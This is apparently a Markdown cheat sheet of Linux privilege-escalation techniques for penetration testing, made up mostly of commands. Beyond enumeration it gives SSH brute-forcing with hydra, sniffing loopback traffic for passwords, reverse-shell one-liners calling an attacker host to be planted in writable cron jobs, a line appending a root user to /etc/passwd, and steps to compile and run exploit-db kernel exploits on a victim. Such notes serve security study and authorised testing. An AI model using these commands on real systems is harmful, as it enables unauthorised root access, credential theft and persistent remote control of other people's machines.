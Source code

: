 # Linux Privilege Escalation

## Manual enumeration

Commands:
- `id`
- `cat /etc/passwd`
- `hostname`
- `cat /etc/issue`
- `cat /etc/os-realease`
- `uname -a`
- `ps aux`
- `ip a`
- `routel`
- `ss -anp`
- `cat /etc/iptables/rules.v4`
- `ls -lah /etc/cron*`
- `crontab -l`
- `sudo crontab -l`
- `dpkg -l`
- `find / -writable -type d 2> /dev/null`
- `cat /etc/fstab`
- `mount`
- `lsblk`
- `lsmod`
- `/sbin/modinfo some_kernel_module`
- `find / -perm -u=s -type f 2> /dev/null`

## Automated enumeration

Initial baseline:
```
/usr/bin/unix-privesc-check
```
Check for example writable config files.

Other tools:
- LinEnum: https://github.com/rebootuser/LinEnum
- LinPeas: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

## Credentials

### Hidden in text files

Check:
- `env`
- `cat .bashrc`
- `su - root`
- `sudo -l`

### Brute force ssh with password hints

With a hint of password:
```
crunch 19 19 -t Hint_Of_Password%%% > wordlist
hydra -l user -P wordlist $VictimIP -t 4 ssh -V
```

### Hidden passwords in Services

```
watch -n1 "ps aux | grep pass | grep -v grep | fold -s
sudo tcpdump -i lo -A | grep "pass"
```

## Cron jobs

If the cron job is writeable, add a reverse shell:
```
bash -i >& /dev/tcp/$AttackerIp/$AttackerPort 0>&1
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc $AttackerIp $AttackerPort > /tmp/f
```
Rshells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Passwd file

```
openssl passwd passwordtohash
echo "newadmin:somehashstring:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Capabilities

References:
- https://man7.org/linux/man-pages/man7/capabilities.7.html
- https://gtfobins.github.io/
```
/usr/sbin/getcap -r / 2> /dev/null
```

## SUID

Source: https://gtfobins.github.io/
```
find / -perm /6000 -exec ls -ld {} \; # setuid + setgid
grep Uid /proc/some_proc_number/status
ls -asl /usr/bin/some_binary
```

## Sudo

```
searchsploit -u
searchsploit "Linux kernel 4.4.0 privilege escalation"
cp /usr/share/exploitdb/exploits/linux/local/num.c .
gcc num.c
scp a.out victim@IP:
./a.out
```




